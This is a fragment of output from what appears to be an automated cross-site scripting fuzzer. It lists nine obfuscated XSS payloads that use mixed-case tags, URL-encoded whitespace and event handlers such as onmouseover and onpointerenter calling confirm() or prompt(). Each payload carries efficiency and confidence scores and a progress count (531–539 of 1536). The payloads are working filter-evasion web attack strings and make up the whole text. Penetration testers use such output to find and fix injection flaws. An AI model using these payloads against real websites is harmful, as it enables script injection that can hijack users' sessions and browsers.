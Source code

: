 ------------------------------------------------------------
 Payload: <hTmL%0aONpoInterenTer%0d=%0d[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 531/1536
 
------------------------------------------------------------
 Payload: <D3v%0aONMOUSEover%0d=%0dconfirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 532/1536
 
------------------------------------------------------------
 Payload: <d3v/+/OnpOInteReNTEr%09=%09confirm()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 533/1536
 
------------------------------------------------------------
 Payload: <a/+/oNmouSeoveR%0d=%0dconfirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 534/1536
 
------------------------------------------------------------
 Payload: <HtmL%0doNmoUSeOVEr%0d=%0d(confirm)()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 535/1536
 
------------------------------------------------------------
 Payload: <HTml%09oNpOINTERENteR%0a=%0a(confirm)()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 536/1536
 
------------------------------------------------------------
 Payload: <HtML/+/onmOUSEOVer%0a=%0a(confirm)()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 537/1536
 
------------------------------------------------------------
 Payload: <D3v/+/onmOUsEOVeR%09=%09a=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 538/1536
 
------------------------------------------------------------
 Payload: <a/+/onMOusEOver+=+confirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 539/1536
 